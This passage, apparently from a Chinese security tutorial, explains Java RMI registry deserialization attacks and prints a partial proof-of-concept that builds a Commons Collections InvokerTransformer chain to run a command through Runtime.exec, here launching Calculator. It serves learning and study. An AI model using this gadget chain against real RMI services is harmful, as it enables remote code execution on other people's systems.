 `AnnotationInvocationHandler`本身实现了`InvocationHandler`接口，再通过代理类封装可以用`class.cast`进行类型转换。又因为反序列化存在传递性，当`proxyEvalObject`被反序列化时，`evalObject`也会被反序列化，自然也会执行 poc 链。（存在疑问：为什么要用代理类封装才行？）

Remote.class.cast 可以参考：[关于 JAVA 中的 Class.cast 方法](https://blog.csdn.net/axzsd/article/details/79206172) 这个方法的作用就是强制转换类型。  
反序列化过程参考：[序列化和反序列化](https://zhuanlan.zhihu.com/p/183763564)

除了`bind()`操作之外，`rebind()`也可以这样利用。但是`lookup`和`unbind`只有一个`String`类型的参数，不能直接传递一个对象反序列化。得寻找其他的方式。

#### unbind & lookup

`unbind`的利用方式跟`lookup`是一样的。这里以`lookup`为例。

注册中心在处理请求时，是直接进行反序列化再进行类型转换，转换流程如图所示：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201224121434-87a2b4fa-459e-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201224121434-87a2b4fa-459e-1.jpg)

如果我们要控制传递过去的序列化值的话，不能直接传递给`lookup`这个方法，因为它的参数是一个`String`类型。但是它发送请求的流程是可以直接复制的，只需要模仿`lookup`中发送请求的流程，就能够控制发送过去的值为一个对象。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201224121435-88229be8-459e-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201224121435-88229be8-459e-1.jpg)

构造出来的 POC 如下：

```
package SimpleRMI_2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;

public class UserServerEval2 {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] {String.class},
                        new Object[] {"open -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "Threezh1");
```